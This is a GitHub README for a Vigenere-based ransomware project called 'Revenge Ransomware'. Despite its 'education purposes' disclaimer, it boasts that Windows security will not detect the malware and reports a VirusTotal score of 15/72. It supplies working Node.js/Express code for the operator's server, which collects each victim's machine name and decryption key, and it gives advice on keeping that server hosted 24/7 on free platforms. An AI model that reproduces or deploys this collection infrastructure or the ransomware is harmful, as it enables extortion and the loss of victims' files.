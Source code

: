 # REVENGE RANSOMEWARE
a vigenere encrypt ransomeware created by me :p, for education purpose.
**MAKE SURE TO STAR THE REPOSITORY :)**

# Used Algorithm
- Vigenere (which is strong algorithm)

# DISCLAIMER
i didnt try this fully, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also **i created this only for education purposes**,
also windows security **wont** detect this ransomeware :) 

# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static(__dirname + "/public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
  res.send("done")
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use [glitch.com](https://glitch.com) or [repl.it](https://repl.it/) to create projects to get the decrypt password, if you want fresh project [click here for fresh glitch.com project](https://glitch.com/edit/#!/remix/revenge-ransome) [or here for repl.it project](https://repl.it/repls/SuperiorCarefulScreenscraper), but make sure to make the project 24/7 by using service like uptimerobot.



# Detection
15/72
[Virustotal Scan Result](https://www.virustotal.com/gui/file/b74d62a432a9011e2d2c8cf16790a21bd0253ba5d5df09c08e993020985ddc1c/detection)

![virustotal](https://g.top4top.io/p_1614y4m991.png)


# Change Log:
- Now includes the decryption software :) 


![decryptsoftware](https://i.top4top.io/p_1604d9ahl1.png)



- Now supports encrypting folders .
